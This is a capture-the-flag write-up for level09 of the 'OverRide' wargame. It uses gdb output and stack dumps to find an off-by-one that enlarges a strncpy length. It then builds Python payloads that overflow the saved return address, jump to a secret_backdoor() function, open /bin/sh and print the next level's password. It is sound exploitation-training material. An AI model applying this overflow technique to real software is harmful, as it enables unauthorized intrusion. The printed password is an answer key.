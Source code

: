 In the function listing we can already find a secret_backdoor() that is never called. This function will run system with arguments read from stdin. The goal will be to pass the address of this function to EIP.

The binary will first read from stdin to get the username. The username will then be manually copied to a buffer, 41 times (for ( i = 0; i <= 40 && s[i]; ++i )). It will then read a second time to get the message, and this time a call to strncpy is made to copy it to the buffer:

    gdb-peda$ disas set_msg 
    Dump of assembler code for function set_msg:
        [...]
        0x00005555554009a2 <+112>:   mov    rax,QWORD PTR [rbp-0x408]
        0x00005555554009a9 <+119>:   mov    eax,DWORD PTR [rax+0xb4]
        0x00005555554009af <+125>:   movsxd rdx,eax
        0x00005555554009b2 <+128>:   lea    rcx,[rbp-0x400]
        0x00005555554009b9 <+135>:   mov    rax,QWORD PTR [rbp-0x408]
        0x00005555554009c0 <+142>:   mov    rsi,rcx
        0x00005555554009c3 <+145>:   mov    rdi,rax
        0x00005555554009c6 <+148>:   call   0x555555400720 <strncpy@plt>
        [...]

In x64 asm, rdx is used to pass the third argument of a function. For strncpy, this argument corresponds to the maximum bytes size copied to the buffer. First we move [rax+0xb4] to eax, then eax is moved to rdx. That means the max size is stored in [rax+0xb4]. If we have a look, we see :

    (gdb) x/x $rax+0xb4
    0x7fffffffe5b4:	0x0000008c

0x8c <=> 140 in dec. So the message can be at most 140 bytes long.

But there's something interesting if we check the location of the username in the stack :

    >: Enter your username
    >>: AAAABBBBCCCCDDDD
    >: Welcome, AAAABBBBCCCCDDDD

    Breakpoint 2, 0x000055555555491f in handle_msg ()
    (gdb) x/100x $rsp
    0x7fffffffe500:	0x0000000a	0x00000000	0x55554c69	0x00005555
    0x7fffffffe510:	0xf7ff7000	0x00007fff	0xf7a94713	0x00007fff
    0x7fffffffe520:	0xf7dd4260	0x00007fff	0xf7dd4260	0x00007fff
    0x7fffffffe530:	0x0000000a	0x00000000	0xf7ff7000	0x00007fff
    0x7fffffffe540:	0x0000002d	0x00000000	0xf7a945da	0x00007fff
    0x7fffffffe550:	0x00000086	0x00000000	0x0000002d	0x00000000
    0x7fffffffe560:	0x0000000a	0x00000000	0x55554c10	0x00005555
    0x7fffffffe570:	0xffffe6b0	0x00007fff	0xf7a95d45	0x00007fff
    0x7fffffffe580:	0xf7dd4260	0x00007fff	0xf7a9608f	0x41414141
    0x7fffffffe590:	0x42424242	0x43434343	0x44444444	0x0000000a
    0x7fffffffe5a0:	0x00000000	0x00000000	0x00000000	0x00000000
    0x7fffffffe5b0:	0x00000000	0x0000008c	0xffffe5d0	0x00007fff

    (gdb) x/x 0x7fffffffe58c
    0x7fffffffe58c:	0x41414141

This address is very close to the strncpy size that we previously found :

    (gdb) x/x $rax+0xb4
    0x7fffffffe5b4:	0x0000008c

We can determine the distance between the beginning of the username address and the strncpy size address : 0xe5b4 - 0xe58c = 0x28 = 40. But we saw previously that we copy up to 41 bytes for the username. That means we can pass a bigger size to strncpy. Let's have a look by passing a size of 0xff (255) :


    level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"') > payload

    (gdb) r < payload 
    Starting program: /home/users/level09/level09 < payload
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
    >>: >: Msg sent!

    Program received signal SIGSEGV, Segmentation fault.
    0x000000000000000a in ?? ()
    (gdb) i r
    rax            0xd	13
    rbx            0x0	0
    rcx            0x7ffff7b01f90	140737348902800
    rdx            0x7ffff7dd5a90	140737351867024
    rsi            0x7ffff7ff7000	140737354100736
    rdi            0xffffffff	4294967295
    rbp            0x6741356741346741	0x6741356741346741
    rsp            0x7fffffffe5d0	0x7fffffffe5d0
    r8             0x7ffff7ff7004	140737354100740
    r9             0xc	12
    r10            0x21	33
    r11            0x246	582
    r12            0x555555554790	93824992233360
    r13            0x7fffffffe6b0	140737488348848
    r14            0x0	0
    r15            0x0	0
    rip            0xa	0xa
    eflags         0x10246	[ PF ZF IF RF ]
    cs             0x33	51
    ss             0x2b	43
    ds             0x0	0
    es             0x0	0
    fs             0x0	0
    gs             0x0	0

We successfully overflowed rbp, causing a segfault, with the 192 - 200th characters. However, rip remains untouched.
This is caused by the so called canonical memory adresses in 64-bit systems. Canonical addresses are anything less than a full 64 bit address. There are different implementations of addressing such as 48 bit or 57 bit. Non-canonical addresses on the other hand fall outside the valid address range and are not considered legitimate memory addresses. This is done to prevent another layer of complexity in memory address translation that would not give a significant benefit, because it's unlikely an OS or app will require all 64-bit address space.

In our case, the string was a 64-bit wide address (for instance passing "AAAAAAAA" would translate the address 0x4141414141414141). That means it's considered as a non-canonical address and thus won't be executed. That's why we can't overflow EIP using this technique.

[source](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow)

Let's see if passing a canonical memory address would overflow eip :

    level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; python -c 'print "\x00" * 250') > payload2
    level09@OverRide:~$ gdb -q ./level09 
    Reading symbols from /home/users/level09/level09...(no debugging symbols found)...done.
    (gdb) r < payload2
    Starting program: /home/users/level09/level09 < payload2
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
    >>: >: Msg sent!

    Program received signal SIGSEGV, Segmentation fault.
    0x0000000000000000 in ?? ()

Seems to work as the rip address is now 0x0000000000000000.
We simply need to find a way to get the offset needed for overflowing rip.
We can have a look to the rsp register, which is immediately before the rip register :

    (gdb) x/xg $rsp
    0x7fffffffe5c8:	0x4138674137674136

In 64-bit architecture, registers are... 64 bits long, so in order to display the content in hexadecimal we have to use giant bytes (x/xg). We can see this is part of our pattern, and we get an offset of 200. That means we can most likely use the 201 - 208th characters to overflow EIP. Let's do that using the secret_backdoor() address : 0x000055555555488c

Since the call to system requires an argument read from stdin, we first need to run a shell by calling /bin/sh.

    level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; python -c 'print "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"') > payload2
    level09@OverRide:~$ cat payload2 - | ./level09 
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
    >>: >: Msg sent!
    /bin/sh
    cd ../end
    cat .pass
    j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
